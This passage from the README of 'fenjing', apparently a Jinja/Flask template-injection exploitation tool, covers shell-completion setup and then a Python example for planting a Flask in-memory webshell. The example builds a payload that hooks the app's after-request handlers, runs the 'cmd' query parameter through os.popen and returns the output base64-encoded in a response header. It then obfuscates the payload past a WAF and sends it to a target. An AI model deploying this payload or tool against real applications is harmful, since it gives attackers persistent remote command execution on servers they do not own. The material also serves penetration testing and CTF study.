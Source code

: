```shell
cat >> ~/.zshrc << EOF
eval "$(_FENJING_COMPLETE=zsh_source fenjing)"
EOF
```

fish

```shell
echo '_FENJING_COMPLETE=fish_source fenjing | source' > ~/.config/fish/completions/fenjing.fish
```

注意只有输入`fenjing ...`的形式可以进行补全，`python -m fenjing`等形式无法进行tab补全

## 作为库使用

### 打内存马

这里以Flask内存马为例

```python
import fenjing
import requests

# 这个内存马会获取GET参数cmd并执行，然后在header Aaa中返回
payload = """
[
    app.view_functions
    for app in [ __import__('sys').modules["__main__"].app ]
    for c4tchm3 in [
        lambda resp: [
            resp
            for cmd_result in [__import__('os').popen(__import__('__main__').app.jinja_env.globals["request"].args.get("cmd", "id")).read()]
            if [
                resp.headers.__setitem__("Aaa", __import__("base64").b64encode(cmd_result.encode()).decode()),
                print(resp.headers["Aaa"])
            ]
        ][0]
    ]
    if [
        app.__dict__.update({'_got_first_request':False}),
        app.after_request_funcs.setdefault(None, []).append(c4tchm3)
    ]
]
"""

def waf(s):
    return "/" not in s


full_payload_gen = fenjing.FullPayloadGen(waf)
payload, will_print = full_payload_gen.generate(fenjing.const.EVAL, (fenjing.const.STRING, payload))
if not will_print:
    print("这个payload不会产生回显")
print(payload)

# 生成payload后在这里打上去
r = requests.get("http://127.0.0.1:5000/", params = {
    "name": payload
})

print(r.text)
# 然后使用`?cmd=whoami`就可以在header里看到命令执行结果了
```
